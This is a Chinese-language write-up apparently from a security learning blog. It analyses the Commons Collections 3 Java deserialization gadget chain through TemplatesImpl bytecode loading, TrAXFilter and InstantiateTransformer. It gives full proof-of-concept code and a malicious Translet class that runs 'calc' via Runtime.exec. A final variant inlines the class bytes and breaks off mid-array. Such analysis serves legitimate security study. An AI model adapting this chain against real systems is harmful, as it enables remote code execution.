组件版本：common-collections3.2.1

jdk版本：1.8.0_172

## TemplatesImpl动态加载字节码

在`TemplatesImpl`类中，存在一个内部类`TransletClassLoader`继承了`ClassLoader`，重写了`defineClass`方法



自定义类加载器的过程如下：



`defineClass()`加载字节码转换为Java类，但是只加载不执行。

关于类加载机制可了解：https://www.yuque.com/m0re/demosec/dtdadg

在这里的`defineClass`方法看看哪里调用了，直接`Find Usages`找一下

同样在`TemplateImpl`类中，在`defineTransletClasses`方法中被调用


继续找利用链，后面再分析逻辑问题

这里找到三个调用的位置，可以挨个看


前两个是在一块的，可以一起看，由于这两个方法，比较简单，而且继续找利用处发现已经找不到了



所以再看第三个，这里是明显的发现有调用newInstance方法，可以对加载的字节码转换的类进行初始化执行。


再继续找哪里调用了`getTransletInstance`方法，唯一一处，只要利用了`TemplateImpl`类中`newTransform`方法，就可以调用，所以到这里利用链也是比较清晰了



画图理解一下



根据利用链编写POC

一步一步看，首先实例化一个`TemplateImpl`对象，这个对象调用`newTransform()`

```java
TemplatesImpl templates = new TemplatesImpl();
templates.newTransformer();
```

这是调用，现在分析逻辑问题，应该如何调用到我们的链子需要调用的方法

直接调用`getTransletInstance()`无需其他操作，看下一步，如果是需要执行`defineTransletClasses()`方法，就必须保证`_class`为空，且`_name`不为空。`_class`不做操作就可以，而`_name`则需要赋值。



```java
Class cc3 = templates.getClass();
Field nameField = cc3.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates, "sfabc");
```

任意赋一个值。现在已经可以进入到`defineTransletClasses()`中来了。

然后就是一个判断`_bytecodes`是否为空的逻辑，这里也需要设置下`_bytecodes`的值


然后看到`_bytecodes`的类型是二维数组。

```java
private byte[][] _bytecodes = null;
```

然后再分析两处代码，是最后利用重写的`defineClass`方法的位置

```java
//一
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
//二
_class[i] = loader.defineClass(_bytecodes[i]);
```

现在也应该理解了是怎么一回事了，POC这边传入赋值时应该传入双重数组，但是写的时候值写入一个就可以了，当然也可以写多个

这里是写好了`Test.java`然后编译为字节码文件，最后加载这个类的。

```java
Field bytecodesField = cc3.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
byte[][] codes = {code};
bytecodesField.set(templates, codes);
```

如需传入多个参数，适当修改并增加一维数组。

继续进行，可以看到这里还是需要传入一个参数，去调用`getExternalExtensionsMap`方法，后续不需要管，只需要保证`_tfactory`不为空即可。



然后需要查看`_tfactory`的参数类型，可以看到他是一个`transient`关键字修饰的，表示它不参与反序列化。不参与反序列化，传入的值就没有意义，所以需要看他是在哪里被赋值的。

```java
private transient TransformerFactoryImpl _tfactory = null;
```

既然他是不参与反序列化的参数，那么它一定在readObject方法中被定义。


所以定义的时候也只需要按照这个类型来就可以。POC应该这么加

```java
Field tfactoryField = cc3.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
```

到最后还有一点需要注意，就是完整的链子执行，还有最后一个逻辑部分



这处是判断前面`superClass`(这里的superClass指的是`_class[i].getSuperclass()`也就是传入的字节码所加载的恶意类)的父类是否为`ABSTRACT_TRANSLET`查看一下也就是



先看逻辑，如果`superClass`的父类等同于`ABSTRACT_TRANSLET`那么就会给`_transletIndex`赋值（对应数组中的下标）总之是不会小于0的。

继续也就走不到`else`的逻辑里面。在进行下一个判断`_transletIndex<0`也不会报错

调试看下



成功走完该逻辑，所以这边也就不会报错了。

走完出来之后就执行了初始化的操作，就可以成功执行恶意类中的命令了。



最后说一下构造恶意类的时候需要注意的点

只继承`AbstractTranslet`会报错，还需要做一些其他的补充。可以看出来这里报错是必须为抽象类实现抽象方法。


这个时候跟进去这个父类中查看，发现它不仅是一个抽象类，还有一个`Translet`接口。



抽象方法只有一个，也就是

```java
transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
```



当然除此之外，还需要去看它的接口中的方法有没有全部实现，只列出来重要的，因为其他的也都实现了。没必要提及。

```java
public void transform(DOM document, SerializationHandler handler)
        throws TransletException;
public void transform(DOM document, SerializationHandler[] handlers)
        throws TransletException;
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
        throws TransletException;
```

参数不同的构造方法，而上面的图中也显示了只实现了两个，还差一个

```java
public void transform(DOM document, SerializationHandler[] handlers)
```

到此，也就是最后需要实现的两个方法，最后的恶意类应该这么写

```java
package com.common.cc;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Test extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        
    }
}
```

## 回归CC3的分析

在CC3中，直接在上面的基础上，找了一个与前两条链子不一样的利用方式

查找调用`newInstance`方法地方，在`TrAXFilter`类中的构造方法里调用了`newInstance()`



但是这个类包括它的父类，都是没有序列化接口的，也就是这个类不能序列化和反序列化。如果要使没有序列化接口的类参与进行序列化和反序列化就必须从这个它的`.class`里赋值。

然后发现这条链子的作者找了一个类`InstantiateTransformer`来调用`TrAXFilter`的构造方法

实例化一个`InstantiateTransformer`对象

可以看到传入的值应当是数组



```java
InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
instantiateTransformer.transform(TrAXFilter.class);
```

然后这条链子就算结束了，看下结果



最后POC&Test.java

```java
package com.common.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;


public class CC3 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class cc3 = templates.getClass();
        Field nameField = cc3.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "sfabc");
        Field bytecodesField = cc3.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc3.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        //templates.newTransformer();
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);
    }
}
package com.common.cc;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Test extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

还可以不使用`Files.readAllBytes(Paths.get("D://Test//Test.class"));`，直接将class文件转换为字节码，写在POC中。POC也就可能需要变动一下

POC改

```java
package com.common.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;


public class CC3 {
    public static void main(String[] args) throws Exception {
		TemplatesImpl templates = new TemplatesImpl();
        Class cc3 = templates.getClass();
        Field nameField = cc3.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "sfabc");
        Field bytecodesField = cc3.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = {-54,-2,-70,-66,0,0,0,52,0,52,10,0,8,0,36,10,0,37,0,38,8,0,39,10,0,37,0,40,7,0,41,10,0,5,0,42,7,0,43,7,0,44,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,18,76,111,99,97,108,86,97,114,105,97,98,108,101,84,97,98,108,101,1,0,4,116,104,105,115,1,0,20,76,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,59,1,0,9,116,114,97,110,115,102,111,114,109,1,0,114,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,100,111,99,117,109,101,110,116,1,0,45,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,1,0,8,104,97,110,100,108,101,114,115,1,0,66,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,10,69,120,99,101,112,116,105,111,110,115,7,0,45,1,0,-90,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,76,99,111,109,47,115,11